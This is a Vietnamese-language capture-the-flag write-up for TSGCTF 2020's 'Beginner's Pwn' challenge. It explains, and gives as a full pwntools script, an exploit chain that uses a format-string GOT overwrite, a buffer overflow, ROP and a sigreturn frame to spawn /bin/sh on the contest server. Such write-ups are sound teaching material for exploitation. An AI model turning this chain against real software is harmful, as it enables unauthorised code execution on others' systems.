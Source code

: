 ```yaml
---
title: "TSGCTF 2020 - Beginner's Pwn"
summary: "Writeup for an easy Pwn challenge that I solved in TSGCTF 2020"
date: 2020-07-15
tags: ["ctf", "pwn"]
---
```

## Foreword
Theo như description của đề thì bài này là sự tổng hợp của các techniques như:
- Format String
- GOT (Global Offset Table) overwrite
- Buffer Overflow
- ROP (Return-Oriented Programming)
- sigreturn syscall (aka SROP)

Thì chúng ta chỉ việc follow theo đấy mà làm thôi.

## Exploit
![](images/main_fn.jpg)
![](images/checksec.jpg)

Như chúng ta thấy thì NX và Canary đều được enabled (đại khái là không thể chạy shellcode và buffer overflow như bình thường). Nhưng bài này có Format String (đặc trưng của lỗi Format String là chúng ta có thể ghi được mọi address, miễn là có quyền write) nên chúng ta có thể bypass được Canary.

### Idea
Idea của mình trong bài này như sau:
1. Overwrite `__stack_chk_fail` GOT address để tránh exit program khi đè qua canary
2. Ghi chuỗi `format` của hàm `scanf` lên section có quyền write (ở đây là .bss section)
3. Làm cho register `rax = 0xf` khi chạy qua hàm scanf để gọi `sys_rt_sigreturn` syscall
4. Craft 1 stack frame bằng `pwntools` để chạy `sys_execve` syscall

### Exploit Analyse
```python
from pwn import *

binary = ELF('./beginners_pwn', checksec=False)

p = remote('35.221.81.216', 30002)

got_table = binary.symbols['_GLOBAL_OFFSET_TABLE_']
start_main_ret = 0x401203
end_main_ret = 0x401256

pop_rdi_ret = 0x4012c3
pop_rsi_r15_ret = 0x4012c1
syscall = 0x40118f

p.sendline(('%7$s%s').ljust(8, '\x00') + p64(binary.symbols['got.__stack_chk_fail']))
p.sendline(p64(end_main_ret)[:-1]) # đoạn này slice đi 1 byte cao để không bị đè với hàm ngay bên dưới __stack_chk_fail là scanf
p.sendline('A'*24 + p64(end_main_ret) + p64(start_main_ret)) # đoạn này phải 16 bytes stack-aligned

p.sendline(('%7$s%s').ljust(8, '\x00') + p64(got_table+0x30))
p.sendline('%1$s'*0xf) # ghi '%1$s' 15 lần vào .bss

payload = p64(pop_rdi_ret)
payload += p64(got_table+0x30)
payload += p64(pop_rsi_r15_ret)
payload += p64(got_table+0x80)
payload += p64(0)
payload += p64(binary.symbols['plt.__isoc99_scanf'])
# scanf(format=got_table+0x30, varargs=got_table+0x80)
# sau khi nhập 15 lần '/bin/sh' (line 45) vào scanf thì lúc đó rax=0xf và nhảy vào syscall luôn
# '/bin/sh' sẽ luôn được ghi vào cùng 1 địa chỉ là argument đầu tiên (ở đây chính là got_table+0x80)
payload += p64(syscall)

# Setup stack frame cho Sigreturn
frame = SigreturnFrame(arch='amd64')
frame.rax = 0x3b # sys_execve
frame.rdi = got_table+0x80 # '/bin/sh\x00'
frame.rsi = 0 # reset rsi
frame.rdx = 0 # reset rdx
frame.rip = syscall # jump tới syscall address để gọi sys_execve

payload += str(frame)

p.sendline('A'*24 + payload)
p.sendlines(['/bin/sh\x00']*0xf) # Gửi '/bin/sh\x00' 15 lần

p.interactive()
```
